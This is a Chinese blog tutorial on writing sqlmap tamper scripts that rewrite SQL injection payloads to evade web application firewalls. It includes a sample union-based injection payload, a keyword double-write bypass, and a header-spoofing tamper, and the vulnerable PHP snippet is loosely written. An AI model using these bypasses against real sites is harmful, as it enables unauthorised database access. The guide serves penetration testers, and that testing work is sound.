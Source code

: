 ```yaml
---
layout: post
title:  "sqlmap-tamper编写指南"
date:   2016-6-06 09:31:40 +0800
categories: web
---
```

> 注：最近遇到了一些奇奇怪怪的waf，想自己写一些tamper但是发现没有参考材料可以使用，因此写了这篇文章，以方便进行自定义的tamper编写。笔者笔力有限，如有错误，敬请读者们指正。

## 0x00 sqlmap tamper简介

sqlmap是一个自动化的SQL注入工具，而tamper则是对其进行扩展的一系列脚本，主要功能是对本来的payload进行特定的更改以绕过waf。

## 0x01 一个最小的例子

为了说明tamper的结构，让我们从一个最简单的例子开始

```python
# sqlmap/tamper/escapequotes.py

from lib.core.enums import PRIORITY

__priority__ = PRIORITY.LOWEST

def dependencies():
    pass

def tamper(payload, **kwargs):
    return payload.replace("'", "\\'").replace('"', '\\"')
```

不难看出，一个最小的tamper脚本结构为priority变量定义和dependencies、tamper函数定义。

priority定义脚本的优先级，用于有多个tamper脚本的情况。

dependencies函数声明该脚本适用/不适用的范围，可以为空。

tamper是主要的函数，接受的参数为payload和\*\*kwargs
返回值为替换后的payload。比如这个例子中就把引号替换为了``\\\\'``。

## 0x02 详细介绍

第一部分完成了一个最简单的tamper架构，下面我们进行更详细的介绍

#### tamper函数

tamper是整个脚本的主体。主要用于修改原本的payload。举例来说，如果服务器上有这么几行代码

```php
$id = trim($POST($id),'union');
$sql="SELECT * FROM users WHERE id='$id'";
```

而我们的payload为
```mysql
-8363'  union select null -- -
```

这里因为union被过滤掉了，将导致payload不能正常执行，那么就可以编写这样的tamper

```python
def tamper(payload, **kwargs):
    return payload.replace('union','uniounionn')
```

保存为replaceunion.py，存到sqlmap/tamper/下，执行的时候带上--tamper=replaceunion的参数，就可以绕过该过滤规则


#### dependencies函数

dependencies函数，就tamper脚本支持/不支持使用的环境进行声明，一个简单的例子如下：

```python
# sqlmap/tamper/echarunicodeencode.py

from lib.core.common import singleTimeWarnMessage

def dependencies():
    singleTimeWarnMessage("tamper script '%s' is only meant to be run against ASP or ASP.NET web applications" % os.path.basename(__file__).split(".")[0])

# singleTimeWarnMessage() 用于在控制台中打印出警告信息

```

#### kwargs

在官方提供的47个tamper脚本中，kwargs参数只被使用了两次，两次都只是更改了http-header，这里以其中一个为例进行简单说明

```python
# sqlmap/tamper/vanrish.py

def tamper(payload, **kwargs):
    headers = kwargs.get("headers", {})
    headers["X-originating-IP"] = "127.0.0.1"
    return payload
```

这个脚本是为了更改X-originating-IP，以绕过WAF，另一个kwargs的使用出现于xforwardedfor.py，也是为了改header以绕过waf

## 0x3 结语

tamper的编写远不止这些，本文只就其最基本的结构进行探讨。作为sqlmap的扩展，在编写tamper时几乎所有的sqlmap内置的函数、变量都可以使用，本文不一一列出。


## 0x04 附录：部分常数值

```python
# sqlmap/lib/enums.py

class PRIORITY:
    LOWEST = -100
    LOWER = -50
    LOW = -10
    NORMAL = 0
    HIGH = 10
    HIGHER = 50
    HIGHEST = 100


class DBMS:
    ACCESS = "Microsoft Access"
    DB2 = "IBM DB2"
    FIREBIRD = "Firebird"
    MAXDB = "SAP MaxDB"
    MSSQL = "Microsoft SQL Server"
    MYSQL = "MySQL"
    ORACLE = "Oracle"
    PGSQL = "PostgreSQL"
    SQLITE = "SQLite"
    SYBASE = "Sybase"
    HSQLDB = "HSQLDB"

```
